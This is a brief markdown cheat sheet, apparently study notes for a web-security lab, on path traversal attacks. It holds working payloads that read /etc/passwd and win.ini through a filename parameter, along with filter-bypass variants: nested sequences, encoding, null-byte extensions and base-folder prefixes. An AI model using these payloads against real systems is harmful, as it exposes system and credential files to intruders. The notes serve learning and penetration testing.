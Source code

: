 # Path traversal
From /www/var/html to root and then to etc/passwd
```
https://insecure-website.com/loadImage?filename=../../../etc/passwd
```
Windows:
```
https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini
```
Sometimes we need to open image in new tab to see correct URL to exploit PT  
And sometimes Burp Proxy doesn't show images, so we need to change its filters

## Bypassing defence techiques
Sometimes we aren't able to use relative path, so we can try absolutte path to nexploit PT  
```
filename=/etc/passwd
```
Another way is nested traversals such as `....//` or `....\/`. The yrevert to simple traversals, when stripped by server (and the one of protection methods is stripping request by certain characters).
```
filename=....//....//....//etc//passwd
```
We can URL encode or double URL encode payload. For such cases we can use Burp Intruder payload list Fuzzing - Path traversal.  
App may require to end file with certain extension (such as .jpg). We can bypasss it with null byte+extension (%00.extension)
```
filename=../../../etc/passwd%00.png
```
Also app may require to start with certain base folder such as /var/www/html. Bypassing:
```
filename=/var/www/images/../../../etc/passwd
```